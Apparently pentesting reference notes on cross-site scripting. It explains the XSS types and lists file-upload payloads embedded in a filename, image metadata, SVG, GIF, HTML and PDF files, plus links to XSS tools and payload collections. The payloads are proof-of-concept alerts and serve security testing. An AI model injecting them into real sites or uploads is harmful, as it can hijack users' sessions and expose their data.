 ```yaml
---
description: Below are some references for the Cross-site scripting attacks.
---
```


# **Cross-site scripting (XSS)** #

### **Concept** ###

Cross-site scripting (also known as XSS) is a web security vulnerability that allows an attacker to compromise the interactions that users have with a vulnerable application. It allows an attacker to circumvent the same origin policy, which is designed to segregate different websites from each other. Cross-site scripting vulnerabilities normally allow an attacker to masquerade as a victim user, to carry out any actions that the user is able to perform, and to access any of the user's data. If the victim user has privileged access within the application, then the attacker might be able to gain full control over all of the application's functionality and data.

### **Types of XSS** ####

* Reflected cross-site scripting.
* Stored cross-site scripting. \[Blind XSS comes under S-XSS)
* Document Object Model-based cross-site scripting

### **Reflected Cross-Site Scripting** ###

Reflected cross-site scripting (or XSS) arises when an application receives data in an HTTP request and includes that data within the immediate response in an unsafe way.

### **Stored Cross-Site Scripting** ###

Stored cross-site scripting (also known as second-order or persistent XSS) arises when an application receives data from an untrusted source and includes that data within its later HTTP responses in an unsafe way. Stored XSS allows potential attackers to inject client-side scripts directly onto target servers. This is not just a single user issue, however, it affects everyone who has access to these servers. Once attackers find a vulnerability in the web application, they can inject their script and wait for an unsuspecting target to fall into their trap. Sites that allow their users to share content (like blogs or social networking sites) are often the most targeted. The injected script is permanently stored on the now infected servers and allows the attacker to set their targets up to receive the malicious script from the servers when they make a request.

### **Blind Cross-Site Scripting** ###

Blind XSS vulnerabilities are a variant of persistent XSS vulnerabilities. They occur when the attacker input is saved by the web server and executed as a malicious script in another part of the application or in another application. For example, an attacker injects a malicious payload into a contact/feedback page and when the administrator of the application is reviewing the feedback entries the attacker’s payload will be loaded. The attacker input can be executed in a completely different application (for example an internal application where the administrator reviews the access logs or the application exceptions).

### **Document Object Model-based Cross-Site Scripting** ###

DOM-based XSS vulnerabilities usually arise when JavaScript takes data from an attacker-controllable source, such as the URL, and passes it to a sink that supports dynamic code execution, such as `eval()` or `innerHTML`. This enables attackers to execute malicious JavaScript, which typically allows them to hijack other users' accounts.

### **XSS via file upload payloads** ###

**XSS in a filename**

```markup
"><img src=v onerror=prompt(xss);>.jpeg
```

#### **Metadata (exit tool)** ####

```markup
exiftool -Artist=’ “><img src=1 onerror=alert(document.domain)>’
brute.jpeg
```

#### **SVG content XSS (save the below content in SVG file)** ####

```markup
<svg xmlns="http://www.w3.org/2000/svg"
onload="alert(document.domain)"/>
```

#### **Gif extension XSS (save the below content in gif file)** ####

```markup
GIF89a/*<svg/onload=alert(1)>*/=alert(document.domain)//;
```

#### **Html extension (save the below content in HTML file)** ####

```markup
<!DOCTYPE html>
<html>
<head>
<title>XSS</title>
</head>
<body>
<script type="text/javascript">alert(document.cookie)</script>
<script>prompt(1);</script>
</body>
</html>
```

#### **PDF extension (When content-type is not checked and magic bytes and file extensions are being checked).** ####

```markup
%PDF-1.4
%Ã¤Ã¼Ã¶Ã
2 0 obj
<</Length 3 0 R/Filter/FlateDecode>>
stream
x=Ë
1E÷ù»v¶é´0è~ àø
R
R<img src=x onerror=alert(document.cookie)>
```
### **Tools** ###

[https://xsshunter.com](https://xsshunter.com)
The Best tool for Blind XSS


[https://github.com/ssl/ezXSS](https://github.com/ssl/ezXSS)
Has 2fa, email reports, share reports feature


[https://knoxss.me/](https://knoxss.me/)
Knoxss


[https://www.irongeek.com/homoglyph-attack-generator.php](https://www.irongeek.com/homoglyph-attack-generator.php)

[https://portswigger.net/burp/documentation/collaborator](https://portswigger.net/burp/documentation/collaborator)

### **Automation XSS** ###

[https://github.com/theinfosecguy/QuickXSS](https://github.com/theinfosecguy/QuickXSS)

### **References** ###

[Reflected cross-site scripting](https://portswigger.net/web-security/cross-site-scripting/reflected)

[Stored cross-site scripting](https://portswigger.net/web-security/cross-site-scripting/stored)

[Document Object Model-based cross-site scripting](https://portswigger.net/web-security/cross-site-scripting/dom-based)

[Blind Cross-site scripting](https://medium.com/@R0X4R/introduction-to-blind-xss-417dcf9c842c)

[https://www.youtube.com/watch?v=EoaDgUgS6QA](https://www.youtube.com/watch?v=EoaDgUgS6QA)

[https://www.youtube.com/watch?v=gkMl1suyj3M](https://www.youtube.com/watch?v=gkMl1suyj3M)

[https://brutelogic.com.br/blog/](https://brutelogic.com.br/blog/)

[https://portswigger.net/web-security/cross-site-scripting](https://portswigger.net/web-security/cross-site-scripting)

[https://medium.com/@bhaveshthakur2015/content-security-policy-csp-bypass-techniques-e3fa475bfe5d](https://medium.com/@bhaveshthakur2015/content-security-policy-csp-bypass-techniques-e3fa475bfe5d)

[https://t.co/7O45xvRMf4?amp=1](https://t.co/7O45xvRMf4?amp=1)

[https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection)

[https://github.com/payloadbox/xss-payload-list](https://github.com/payloadbox/xss-payload-list)

[https://github.com/0xsobky/HackVault/wiki/Unleashing-an-Ultimate-XSS-Polyglot](https://github.com/0xsobky/HackVault/wiki/Unleashing-an-Ultimate-XSS-Polyglot)

[https://github.com/s0md3v/AwesomeXSS](https://github.com/s0md3v/AwesomeXSS)

